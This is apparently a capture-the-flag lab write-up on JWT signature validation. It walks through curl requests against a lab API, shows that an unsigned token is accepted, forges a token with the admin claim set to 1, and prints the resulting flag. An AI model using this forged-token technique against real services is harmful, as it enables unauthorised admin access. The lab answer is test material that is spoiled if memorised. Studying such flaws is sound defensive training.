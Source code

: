 Not Verifying the Signature

The first issue with signature validation is when there is no signature validation. If the server does not verify the signature of the JWT, then it is possible to modify the claims in the JWT to whatever you prefer them to be. While it is uncommon to find APIs where no signature validation is performed, signature validation may have been omitted from a single endpoint within theÂ API. Depending on the sensitivity of the endpoint, this can have a significant business impact.

**Practical Example 2**  

Let's authenticate to theÂ API:

```json
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password2" }' http://10.10.131.92/api/v1.0/example2
{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4"
}
```


Once authenticated, let's verify our user:

```json
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4' "http://10.10.131.92/api/v1.0/example2?username=user"

{
  "message": "Welcome user, you are not an admin"
}
```

However, let's try to verify our user without the signature, remove the third part of the JWT (leaving only the dot) and make the request again. You will see that the verification still works! This means that the signature is not being verified. Modify the admin claim in the payload to beÂ `1`Â and try to verify as the admin user to retrieve your flag.  

![Pasted image 20250503151554.png](../../../IMAGES/Pasted%20image%2020250503151554.png)


```json
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.QDbJj7L9iz9m8bWmiN3_Ujt7Q8Gm8VNlMW0fgqu0mdc' "http://10.10.131.92/api/v1.0/example2?username=admin"

{
  "message": "Welcome admin, you are an admin, here is your flag: THM{6e32dca9-0d10-4156-a2d9-5e5c7000648a}"
}
```
